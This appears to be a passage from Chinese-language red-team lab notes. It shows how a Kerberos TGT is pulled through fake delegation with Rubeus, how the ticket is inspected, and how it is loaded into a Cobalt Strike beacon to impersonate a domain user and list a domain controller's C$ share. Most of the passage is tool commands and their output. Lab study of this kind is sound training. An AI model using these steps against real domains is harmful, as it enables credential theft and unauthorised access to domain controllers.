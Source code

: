 2. 上面命令生成的tgt
```
[*] No target SPN specified, attempting to build 'cifs/dc.domain.com'
[*] Initializing Kerberos GSS-API w/ fake delegation for target 'cifs/dc-2.dev.cyberbotic.io'
[+] Kerberos GSS-API initialization success!
[+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
[*] Found the AP-REQ delegation ticket in the GSS-API output.
[*] Authenticator etype: aes256_cts_hmac_sha1
[*] Extracted the service ticket session key from the ticket cache: +mzV4aOvQx3/dpZGBaVEhccq1t+jhKi8oeCYXkjHXw4=
[+] Successfully decrypted the authenticator
[*] base64(ticket.kirbi):

      doIFgz [...snip...] MuSU8=

[*] Decrypting TGT
[*] Retreiving PAC
[*] Modifying PAC
[*] Signing PAC
[*] Encrypting Modified TGT

[*] base64(ticket.kirbi):

doIFYj [...snip...] MuSU8=
```

使用Rubeus的```describe```命令查看tgt细节
```
C:\>C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

[*] Action: Describe Ticket

  ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  nlamb
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  7/7/2022 8:41:46 AM
  EndTime                  :  7/7/2022 6:41:46 PM
  RenewTill                :  1/1/1970 12:00:00 AM
  Flags                    :  name_canonicalize, pre_authent, forwarded, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  jp4k3G5LvXpIl3cuAnTtgLuxOWkPJIUjOEZB5wrHdVw=
```

把tgt导入session
```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi

beacon> ls \\dc-2\c$
[*] Listing: \\dc-2\c$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/19/2021 11:11:35   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
```
